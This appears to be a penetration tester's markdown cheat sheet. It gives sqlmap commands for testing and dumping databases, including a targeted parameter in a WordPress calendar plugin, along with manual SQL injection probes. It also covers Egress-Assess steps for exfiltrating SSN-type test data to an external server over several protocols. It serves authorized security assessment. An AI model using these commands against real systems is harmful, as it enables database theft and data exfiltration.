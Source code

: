 ### Kerberoast 
### Burp Suite
### Metasploit
### SearchSploit
### sqlmap
create file from burp with loginin POST from burp suite - This is easier when done under the target usage --batch assume defaults good for background enumeration. 
```
sqlmap -r login.req -p id --level 5 --risk 3 --threads 10 --batch 
```
Basic sqlmap command usage
```
sqlmap -u "http://10.20.160.35/?action-data_management&cpmvc_do_action=mvparse&f=edit&id=1" --dbs
sqlmap -u "http://10.20.160.35/?action-data_management&cpmvc_do_action=mvparse&f=edit&id=1" -D "databasename" --tables 
sqlmap -u "http://10.20.160.35/?action-data_management&cpmvc_do_action=mvparse&f=edit&id=1" -D "databasename" -T "tables" --columns 
sqlmap -u "http://10.20.160.35/?action-data_management&cpmvc_do_action=mvparse&f=edit&id=1" -D "databasename" -T "tables" -C "columnName" --dump
```
Manual testing for sqlmap can include using the following. 
```
http://site/name.php?henryearl=1
http://site/name.php?henryearl=1'
http://site/name.php?henryearl=-1
http://site/name.php?henryearl=-1'
```
[Thanks to Database Tutorials](https://www.youtube.com/watch?v=oWHKIiRGjtQ)

Wordpress Calendar SQL
```
sqlmap -u "http://"url"/?action=data_management&cpmvc_do_action=mvparse&f=datafeed&method=remove&rruleType=del_only&calendarId=123" -p calendarId
```
The big thing here is the **calendarId**


# Data Exfiltration
### Egress-Assess
In order to fulfill the data exfiltration service of an assessment, a tool called Egress-Assess is used. On the designated Egress-Assess server (the external Egress-Assess Kali machine) navigate to "root/Tools/Egress-Assess" and run: 
```
Egress-Assess.py --server "protocol"
```
For ftp and smtp protocols, specify a --username and --password that the client can use to connect and be sure to indicate those on the client as well. 


Once your server is set up, use the Egress-Assess client (the internal Egress-Assess Kali machine) and navigate to the "root/Tools/Egress-Assess" directory. Run the following command: 
```
/Egress-Assess.py --client <protocol> --ip <server ip address> --datatype ssn –data-size 15’.
```
Repeat this process for each of the protocols (http, https, ftp, icmp, smb, dns, smtp) and use the server output to determine if the data exfiltration was blocked or not. Use a smaller data size for DNS and ICMP protocols since they utilize a lot of packets. Include the results in your report.
